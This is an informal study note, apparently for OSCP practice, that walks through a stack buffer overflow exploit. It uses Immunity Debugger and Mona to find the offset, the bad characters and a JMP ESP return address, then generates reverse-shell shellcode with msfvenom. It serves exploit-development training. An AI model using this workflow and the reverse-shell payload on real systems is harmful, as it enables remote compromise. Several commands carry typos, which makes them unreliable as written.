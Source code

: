 <h2>Starting from setting up and environment with Mona and Immunity Debugger.</h2>

<h3>SettingUp an Config with Mona.</h3>
<p> I am just a noob, i am writing this for myself to be able to understand the step to reprodcue error throughly but it's not something you jump right away becasue you will not even get the basics of it if you don't know what is <em> PYTHON, ImmunityDebugger, MetaSploit framework, Basics of Assembly and How stack or Registers work while running a program. </em></p>
<ul></ul>
<li>In the bottom of the Immunity Debugger, we need to set the Config for Mona so that we can be able to Analysis Bytearray later which may comes handy while finding bad chars.</li>
<code><em>!mona config -set workingfolder C:\mona\oscp\</em></code>
Now, we have set the Configuration to that folder so while comparing later with esp, we will have to take care of this.

<li>Keep the fuzzing going on and notice the Bytes at which it gets crashed???? :It is helpful while creating pattern:</li>
<h3>Finding the offset.</h3>
<li>Create a pattern with <code>Pattern_create.rb -l CRASHEDBYTE </code>which is probably inside metasploit-framework</li>
<li>We got the pattern now we need to insert it into exploit in order to Figure out it's OFFSET </li>
<li>We can either find offset via  <code><em>!mona findmsp -distance CRASHEDBYTE</em></code> Or with Pattern_offset.rb -l CRASHEDBYTE -q ValueInEIP</li>
<li>Now we know the offset so put it inside the Exploit and we can also keep RTN as BBBB to reflect it in the Register.</li>
<h3>Finding the Bad Chars.</h3>
<li>Run the BADCHARS, (You can exclude \x00)and keep that payload to exploit in the the place of payload and set the Byte array for mona to <code><em>!mona bytearray -b "\x00" </code> First with  \x00. Remember we set the config at the begining? So the bytearray.bin is stored inside that config and we need that.</em></li>
<li>Watch out the MONA COMPARISON, and see the bad chars.</li>
<li>REPEAT: Iterate it while erasing the BadChars from the Exploit and Including the badchars in !mona bytearray, Remember that most of the time it's sequential and the early index is most of the times a bad chars. </li>
<li>COMPARE CODE: <code>!mona compare -f c:\mona\oscp\bytearray.bin -a esp</code></li>
<li>Iterate above till we get the MonaComparison Status to Unmodified.</li>
<h3>Finding the Right Return address</h3>
<em>Because whenever a function is called then, what to execute after the function has done it's part is stored in the returned address so basically next instruction?</em>
<li>Call it either finding a JMP state or Return address, we can find it via</li>
<li><code><em>!mona jmp -r esp -cpb "x\00\xALLTHEBADCHARSYOUFOUND.</em></code></li>
<li>See the Log data results and keep one JMP Esp 0x00 Addresss for later use.</li>
<li>If the address is suppose, 0x1129AF, then there comes Big Endian and Little Endian so </li>
<li>Manage the exploit.py with Return Address in the rtn variable but in different format like this: "\xAF\x29\x11" probably as a LSB perspective right?</li>
<h3>Generating the Payload shellcode.</h3>
<li>Now is the time to generate Payload so BADCHARS comes here to...</li>
<code><em>msfvenom -p windows/shell_riverse_tcp LHOST= LPORT= EXITFUNC=thread -b "\x00\xALLTHEBADCHARS" -f c </code>or you can use py too</em>
<li>You get the shellcode now manipulate the Exploit payload with the Generated and make sure to use the string inside ("") if it's format c and in such a way that there should be, OFFSET, RETN, PADDING = "\x90" * 16 <u>No Operation because it's a bad practice to run the shellcode instantly so we are using No operation to skip for a while.</u></li>
<li>Leave the PostFix as it is or give something as it doesn't really matter.</li>
<h3>Exploit</h3>
<li>You are good to go now. :wink:</li>
<li>There may comes some error but someone who has came this far will figure out how to solve it.</li>
